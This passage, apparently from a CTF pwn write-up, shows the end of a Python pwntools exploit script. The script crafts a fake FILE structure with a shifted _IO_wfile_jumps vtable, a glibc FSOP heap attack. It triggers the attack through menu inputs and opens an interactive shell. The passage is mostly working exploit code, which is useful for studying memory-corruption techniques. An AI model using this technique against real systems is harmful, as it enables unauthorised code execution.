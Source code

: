```python
    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),
    vtable=l.symbols["_IO_wfile_jumps"] - 0x40,
    _mode=0xFFFFFFFF,
)

#FSOP
_malloc(7)
p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"> ", b'7')
p.sendafter(b"> ", FSOP)

# exit -> get shell
p.sendlineafter("> ", "4")
p.interactive()
```

![[Pasted image 20250124214236.png]]